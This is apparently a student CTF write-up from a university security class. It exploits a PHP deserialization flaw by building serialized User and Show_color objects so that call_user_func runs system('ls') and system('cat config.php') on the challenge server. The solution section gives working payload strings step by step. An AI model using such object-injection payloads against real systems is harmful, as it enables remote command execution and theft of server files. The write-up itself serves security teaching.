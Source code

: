 ![](images/cover.png)

## Decription
This is our task from teacher at NT521.ANTT pratical class (Nghi Hoang Khoa) ^^. My team called by **54010N** and you can see us in [CTF Time](https://ctftime.org/team/143012)
As teacher say, our work is find out flag of challenge by exploiting the PHP serialize/deserialize vulnerability.

## The challenge
Link: *http://45.122.249.68:10001*
If you're lazy, you can see the quick code below:
{%- gist #### %}

## Analytics
By reading and following the code, we analysed the code and proposed a few judgments (*for convenient in handling, we get the code back local and handle on it*):

**Source code overview**
If `isset($_GET['code']` not null, the site will unserialize the code input which we can put it into the site to request.
The code input is a object type. We have to serialize the code to right format and request to server. **(1)**

**About *class User***
```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name; //???something went wrong here!!!
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```
We realize that at the line 5, author uses`$this->$name = $name;` instead of `$this->$name = $name;`.

By *our test below*, we see that the output will add a "54010N" property into User object with the value as same as property's name.
[](images/usertest.png)

Moreover, the `$name` and `$is_admin` properties are changed to `Username` and `Useris_admin` ?? :smile: ??.  *What is special when author make that?* **(2)**

**About *class Show_color***
I put the code of User class here so that you can follow easily:
```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

You can see that this class have the `call_user_func()` which have the feature like callback function [(call the callback function)](https://www.php.net/manual/en/function.call-user-func.php). So, here is probably the key of the challege ^^. We can use it to call any the function in program :3.

In line `call_user_func($this->type->adu,$this->color);`, the first parameter will call `$this->type->adu` but *where is `adu` property?*

**About *class do_nothing***
As the class name, it's not relate to something in this challenge.

## Solution

After trying many ways, we was finally find out the way to capture the flag. Let's us begin with step by step!

Remember to the previous section, in User class, *construc()* function use `$this->$name = $name;` instead of `$this->name = $name;` and we had a question in there. At here, everything seemed to mutual matching. We can use `call_user_func()` to force User's class construct a new user object and add a `adu` property into it. And with this way, we will try to use `system("ls")` command to explore some files which is archived on server through `call_user_func()`.

First, we will generate a **adu** user and serialize it to object format.

```php
$user = new User("adu"); //create new user "adu"
$code = serialize($user); //serialize to object format
echo $code;
```
> Output: `O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}`

Next, we try to call `call_user_func()` through *Show_color* class to call *"ls"* command.
```php
$user = new User("adu"); //Create new user "adu"
$showcolor = new Show_color($user, 'ls');
$code = serialize($showcolor);
echo $code;
```
> Output: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}}`
Using this output as payload:
![](images/wrong.png)

The *ls* command is not execute and the server return a error. So we need to repair the payload.
- As mention in **(1)**, `name` and `is_admin` in User's class were added the string *"User"* to head so we need to remove it before request to server.
- We have to change the `is_admin` from `false` to `true` by change the *"is_admin";b:0;"* as *"is_admin";b:1;"* so that we can become a importor as admin.
- Specialy, the server is not compile `system("ls")` command because the `adu` property have *adu* value rather than *system* value. So, the system will be compile *adu("ls")* instead of *system("ls")*. That is the reason why we must to change the value of `adu` property to *"system"*.

Now, let's request by the changed payload: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`:
![](images/rightway.png)

Yeah, we are success when execute `system("ls")` on the server. Now our work is checking files and find out the flag because the string *"hi admin, here is your flag"* is not the flag :(((
> Payload: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`

*Ctrl + U* is shortcut key to view source and it's the way that we captured the flag :3
![](images/flag.png)

**Note:**
- *When we changed the payload, the important thing that we need to remember is changing the length of property*
- The final source code here [code.php](code.php)

## Flag
> **flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**
